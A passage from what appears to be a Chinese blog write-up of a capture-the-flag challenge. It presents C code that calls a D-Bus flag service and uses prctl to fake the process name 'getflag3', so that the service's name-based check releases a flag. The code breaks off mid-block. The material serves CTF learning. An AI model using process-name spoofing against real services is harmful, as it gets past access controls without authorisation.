 ```c
  return EXIT_SUCCESS;
}

```

看来服务器上应该也有这么个可执行文件放在那里，不过显然，直接用`bash`去调用它，会得到`Get result but I won't show you :)`

不过这源代码都给了，我不是可以直接抄下来魔改一下？把`if (result) {`这部分代码修改为下面这样：

```c
if (result) {
    gchar *response;
    g_variant_get(result, "(s)", &response);
    g_print("flag3: %s\n", response);
    g_variant_unref(result);
}
```

但要怎么伪装进程名呢？问了下GPT发现可以用`prctl`

<img src="https://blogfiles.oss.fyz666.xyz/png/5f9de1f2-e227-4180-84cd-3ee0856d487f.png" alt="image-20241109190410937" style="zoom:50%;" />

不过这里它多给了一个换行符，手动把它去掉即可。最终的代码：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/prctl.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    prctl(PR_SET_NAME, "getflag3", 0, 0, 0);

    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    result = g_dbus_connection_call_sync(connection,
                                         DEST,
                                         OBJECT_PATH,
                                         INTERFACE,
                                         METHOD,
                                         NULL,
                                         NULL,
                                         G_DBUS_CALL_FLAGS_NONE,
                                         -1,
                                         NULL, &error);

    if (result) {
        gchar *response;
```